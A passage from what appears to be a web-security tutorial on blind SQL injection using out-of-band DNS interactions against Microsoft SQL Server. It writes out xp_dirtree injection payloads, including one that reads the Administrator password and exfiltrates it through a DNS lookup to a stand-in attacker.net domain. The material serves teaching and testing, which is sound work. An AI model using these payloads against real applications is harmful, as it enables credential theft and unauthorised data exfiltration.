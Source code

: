 **Blind SQLi with out-of-band(OAST) Network calls**

Now, suppose that the application carries out the same SQL query, but does it asynchronously. The application continues processing the user's request in the original thread and uses another thread to execute an SQL query using the tracking cookie. The query is still vulnerable to SQL injection, however, none of the techniques described so far will work: the application's response doesn't depend on whether the query returns any data, on whether a database error occurs, or on the time taken to execute the query.

In this situation, it is often possible to exploit the blind SQL injection vulnerability by triggering out-of-band network interactions with a system that you control. As previously, these can be triggered conditionally, depending on an injected condition, to infer information one bit at a time. But more powerfully, data can be exfiltrated directly within the network interaction itself.

A variety of network protocols can be used for this purpose, i.e HTTP, and FTP but typically the most effective is DNS (domain name service). This is because very many production networks allow free egress of DNS queries. After all, they are essential for the normal operation of production systems.

What we have to do is to inject an SQL query that gets data and after that send that data with DNS Query if we controlled a server name `attacker.com` then we send data using `data_is_here.attacker.com` this way we can get the data from DNS log or console output.

The techniques for triggering a DNS query are highly specific to the type of database being used. On Microsoft SQL Server, input like the following can be used to cause a DNS lookup on a specified domain:
```MySQL
'; exec master..xp_dirtree '//0efdymgw1o5w9inae8mg4dfrgim9ay.attacker.net/a'--
```

This will cause the database to perform a lookup for the following domain:

`0efdymgw1o5w9inae8mg4dfrgim9ay.attacker.net`

There are various tools you can use to host your controlled server like cannarytoken, ngrok, etc to generate a unique subdomain to confirm when any DNS lookups occur.

Having confirmed a way to trigger out-of-band interactions, you can then use the out-of-band channel to exfiltrate data from the vulnerable application. For example:

```mysql
'; declare @p varchar(1024);set @p=(SELECT password FROM users WHERE username='Administrator');exec('master..xp_dirtree "//'+@p+'.attacker.net/a"')--
```

This input reads the password for the `Administrator` user, appends it to an attacker-controlled subdomain, and triggers a DNS lookup. This will result in a DNS lookup like the following, allowing you to view the captured password:

```
S3cure.attacker.net
```

Out-of-band (OAST) techniques are an extremely powerful way to detect and exploit blind SQL injection, due to the high likelihood of success and the ability to directly exfiltrate data within the out-of-band channel. For this reason, OAST techniques are often preferable even in situations where other techniques for blind exploitation do work.

**DNS Lookup**
